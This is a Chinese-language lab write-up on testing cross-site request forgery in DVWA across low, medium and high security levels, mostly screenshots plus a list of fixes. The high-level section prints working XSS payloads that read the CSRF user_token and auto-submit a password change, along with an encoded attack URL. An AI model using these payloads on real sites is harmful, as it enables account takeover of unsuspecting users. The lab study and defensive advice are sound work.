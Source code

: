# DVWA之跨站请求伪造 #

## 漏洞概述 ##

跨站请求伪造是指攻击者引诱用户访问页面，攻击页面使用该用户身份在第三方网站自动进行操作

## 测试工具 ##

firefox浏览器，burp suite

## 测试方法 ##

### LOW级别 ###

1. 设置DVWA安全级别为LOW

2. 启动burpsuite并开启代理

    ![](media/04.01.png)

3. 设置firefox浏览器代理为127.0.0.1:8080

    ![](media/04.02.png)

4. 关闭burpsuite拦截

    ![](media/04.03.png)

5. 使用firefox浏览器发起登陆请求

    ![](media/04.05.png)

6. 使用burpsuite进行CSRF攻击

    ![](media/04.06.png)

    ![](media/04.07.png)

    ![](media/04.08.png)

    ![](media/04.09.png)

7. 分析结果

    ![](media/04.10.png)

8. 代码分析

    ![](media/04.11.png)

    说明：

    修改密码过程针对第三方站点自动化请求无任何防御机制，可以在用户登录状态下由第三方站点自动发起修改密码操作

### MEDIUM级别 ###

1. 设置DVWA安全级别为Medium

2. 启动burpsuite并开启代理

    ![](media/04.12.png)

3. 设置firefox浏览器代理为127.0.0.1:8080

    ![](media/04.13.png)

4. 关闭burpsuite拦截

    ![](media/04.14.png)

5. 使用firefox浏览器发起登陆请求

    ![](media/04.15.png)

6. 使用burpsuite进行CSRF攻击

    ![](media/04.16.png)

    ![](media/04.17.png)

    ![](media/04.18.png)

    ![](media/04.19.png)

    ![](media/04.20.png)

7. 分析结果

    ![](media/04.21.png)

8. 代码分析

    ![](media/04.22.png)

    说明：

    针对请求来源使用http referrer头信息进行检查，但是检查逻辑存在问题，检查逻辑为在referer中查找服务器名称，若查找到则成功，否则失败

### HIGH级别 ###

1. 设置DVWA安全级别为High

2. 借助反射型XSS实现CSRF攻击

    + 反射性XSS漏洞利用

    payload: `<img src="" onerror="alert(/xss/)"/>`

    ![](media/04.23.png)

    ![](media/04.24.png)

    + 通过反射型XSS获取修改密码表单user_token

    payload: `<iframe src="../csrf/" onload="alert(frames[0].document.getElementsByName('user_token')[0].value)"></iframe>`

    ![](media/04.25.png)

    + 利用反射性XSS自动提交修改密码表单

    payload: `<iframe src="../csrf" onload="var t=frames[0].document.getElementsByName('user_token')[0].value,x=new XMLHttpRequest();x.open('GET', '../csrf/?password_new=test123&password_conf=test123&Change=Change&user_token='+t, null);x.send()"></iframe>`

    发起攻击连接:


    `http://localhost/DVWA-1.9/vulnerabilities/xss_r/?name=%3Ciframe+src%3D%22..%2Fcsrf%22+onload%3D%22var+t%3Dframes%5B0%5D.document.getElementsByName%28%27user_token%27%29%5B0%5D.value%2Cx%3Dnew+XMLHttpRequest%28%29%3Bx.open%28%27GET%27%2C+%27..%2Fcsrf%2F%3Fpassword_new%3Dtest123%26password_conf%3Dtest123%26Change%3DChange%26user_token%3D%27%2Bt%2C+null%29%3Bx.send%28%29%22%3E%3C%2Fiframe%3E#`

    test123为修改后密码

    ![](media/04.26.png)

3. 分析结果

    ![](media/04.27.png)

    ![](media/04.28.png)

4. 代码分析

    ![](media/04.29.png)

    说明：

    针对请求进行随机token验证，需要借助xss漏洞实现漏洞利用

## 修复建议 ##

1. 对于修改数据和登陆表单提交使用POST方式，同时数据通过POST方式读取

2. 添加随机token预防csrf攻击

3. 对提交的请求进行referer验证，验证规则请求referer必须以http(s)://host:port/开头

4. 针对修改密码，需要输入原密码进行验证

5. 可添加验证码进行用户确认
